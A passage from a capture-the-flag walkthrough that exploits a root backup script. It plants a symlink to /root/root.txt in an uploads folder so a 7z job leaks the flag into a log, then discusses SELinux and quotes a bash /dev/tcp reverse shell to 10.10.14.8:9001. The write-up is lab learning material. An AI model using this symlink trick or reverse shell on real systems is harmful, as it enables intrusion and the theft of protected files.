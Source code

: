 Next, I'll use the apache shell to write the two files:



    bash-4.2$ pwd
    /var/www.md/uploads
    bash-4.2$ touch @0xdf; ln -sf /root/root.txt 0xdf 
    bash-4.2$ ls -l
    total 0
    lrwxrwxrwx. 1 apache apache 14 Feb 11 17:24 0xdf -> /root/root.txt
    -rw-r--r--. 1 apache apache  0 Feb 11 17:24 @0xdf



Alternatively, if I didn't have a full shell, I could just submit the
following to the cmd webpage:



    cd /var/www.md/uploads; touch '@0xdf'; ln -sf /root/root.txt 0xdf; ls -la; date



That will create the two files I need, and then show them and the date
to show how long until the next minute.

When the minute rolls, back in the ldapuser shell, I get root.txt:



    [ldapuser@ctf backup]$ tail -f error.log

    WARNING: No more files
    fd6d2e53...

    tail: error.log: file truncated



## Beyond Root

### SELinux

There were some SELinux rules in place that made it more difficult to
get a shell. Shoutout to Ippsec and jkr for helping me figure out the
bits that I did on SELinux.

I can look in `/var/log/audit` and find the audit logs which show where
SELinux blocked something. I can exfil these logs using the 7z script,
since I have the flag now, I can calculate the password to the zip.

#### Callbacks

When I try to run:



    bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'



I see:

